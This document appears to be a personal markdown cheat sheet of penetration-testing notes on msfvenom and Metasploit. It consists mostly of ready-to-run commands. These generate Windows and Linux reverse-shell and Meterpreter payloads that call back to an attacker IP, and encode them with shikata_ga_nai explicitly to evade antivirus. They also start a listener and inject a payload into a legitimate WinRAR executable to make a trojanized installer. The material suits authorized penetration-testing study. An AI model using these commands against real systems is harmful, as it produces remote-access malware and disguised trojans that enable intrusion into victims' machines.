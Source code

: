 # Msfvenom

Command line utility that can be used to generate and encode MSF payloads for various operating systems as well as web servers.




## List
```
msfvenom --list payloads
# Example (STAGED PAYLOAD): /windows/x64/meterpreter/reverse_tcp
# Example (NON-STAGED PAYLOAD): /windows/x64/meterpreter_reverse_tcp

msfvenom --list formats
```











## Generate payload


### executable
```
## Windows 32 bits
msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=[ATTACKER IP] LPORT=[SOME PORT, ex 1234] -f exe > payloadx86.exe

## Windows 64 bit
msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=[ATTACKER IP] LPORT=[SOME PORT, ex 1234] -f exe > payloadx64.exe

msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.174 LPORT=443 -f exe > reverse.exe



## Linux x86
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[ATTACKER IP] LPORT=[SOME PORT, ex 1234] -f elf > payloadx86

## Linux x64
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=[ATTACKER IP] LPORT=[SOME PORT, ex 1234] -f elf > payloadx64

```









### code

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.4 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"






#### Encoding Payloads

Encoding is the process of modifying the payload shellcode with the objective of modifying the payload signature.

Most end user AV solutions utilize signature based detection in order to identify malicious files or executables.

We can evade older signature based AV solutions by encoding our payloads.



```
msfvenom --list encoders
Example: x86/shikata_ga_nai (both for Linux and Windows payloads)


msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ATTACKER IP] LPORT=[SOME PORT, ex 1234] -i 10 -e x86/shikata_ga_nai -f exe > encoded_payloadx86.exe

msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ATTACKER IP] LPORT=[SOME PORT, ex 1234] -e x86/shikata_ga_nai -f exe > encoded_payloadx86.exe

```






















## Multi Handler (msfvenom + metasploit)
Listen

```
> use multi/handler
> set PAYLOAD windows/x64/meterpreter/reverse_tcp
> set LHOST
> set LPORT
> run # or  `exploit -j` (to run as background job)


```




















## Injecting Payloads Into Windows Portable Executables

Not all portable executable allows a successful injection.

The WinRAR portable works fine.

```
# Example with WinRAR
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ATTACKER IP] LPORT=[SOME PORT, ex 1234] -i 10 -e x86/shikata_ga_nai -f exe -x wrar602.exe  > winrar.exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ATTACKER IP] LPORT=[SOME PORT, ex 1234] -i 10 -e x86/shikata_ga_nai -f exe -k -x wrar602.exe  > winrar.exe # error with -k flag!



```


